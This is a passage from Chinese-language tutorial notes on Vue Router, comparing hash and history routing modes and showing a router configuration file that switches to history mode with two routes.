   2. 若以后将地址通过第三方手机 app 分享，若 app 校验严格，则地址会被标记为不合法。
   3. 兼容性较好。
4. history 模式：
   1. 地址干净，美观。
   2. 兼容性和 hash 模式相比略差。
   3. 应用部署上线时需要后端人员支持，解决刷新页面服务器 404 的问题。
5. 路由器的工作模式切换：

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
const router = new VueRouter({
  mode: "history", //默认值为hash值
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      name: "zhuye",
      path: "/home",
      component: Home,
    },
  ],
});
export default router;
```
